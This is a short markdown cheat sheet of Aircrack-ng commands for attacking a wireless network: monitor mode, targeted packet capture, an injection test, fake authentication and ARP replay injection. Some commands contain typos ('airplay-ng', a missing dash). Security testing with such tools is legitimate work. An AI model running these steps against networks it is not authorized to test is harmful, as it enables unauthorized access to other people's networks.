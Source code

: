 # Aircrack-ng

### Place adapter into monitor mode and launch Airodump-ng.
```
sudo airmon-ng start wlan0 
```

```
sudo airmon-ng check kill
```

```
sudo airodump-ng wlan0mon
```

### Once you are finished using Airodump-ng. The network manager needs to be restarted, follow these steps.
```
sudo ifconfig wlan0mon down
```

```
sudo iwconfig wlan0mon mode managed
```

```
sudo ifconfig wlan0mon up
```

```
sudo service NetworkManager restart
```

### Test wireless device packet injection.
```
aireplay-ng -9 -e <network name> -a <target MAC> <Your Wireless Interface>
```
* ``` -9 ``` Injection.
* ```-e``` Network Name or ESSID.
* ```-a``` MAC or BSSID (of the target access point).
* ```wlan0mon``` Your wireless interface.
  
### Airodump will hop channel to channel. This command can be used to camp a certain channel.
```
airodump-ng -c 3 --bssid <Target MAC> -w <File Name> <Your Wireless Interface>
```
* ```-c``` Channel to camp.
* ```--bssid``` Target MAC address.
* ```-w``` Name of file output file (outputs in .pcap format, this means it can be opened in Wireshark).
* ```wlan0mon``` Your wireless device.

### Initiate fake authentication request. Execute this command in a seperate terminal window while the above command is running.
```
airplay-ng -1 0 e <Network Name> -a <Target MAC> -h <Wireless MAC> <Your Wirelss Interface>
```
* ```-1``` Use fake authentication.
* ```0``` Reassociation timing in seconds.
* ```-e``` Network name or ESSID.
* ```-a``` Target MAC address.
* ```-h``` Your MAC address.
* ```wlan0mon``` Your wireless interface.

### ARP request replay mode. When an ARP request is identified it will immediately start to inject it.
```
aireplay-ng -3 -b <Target MAC> -h <Your MAC> <Interface>
```
* ```-3``` Listen to/inject ARP request.
* ```-b``` Target MAC address.
* ```-h``` Your MAC address.
* ```wlan0mon``` Your wireless interface.

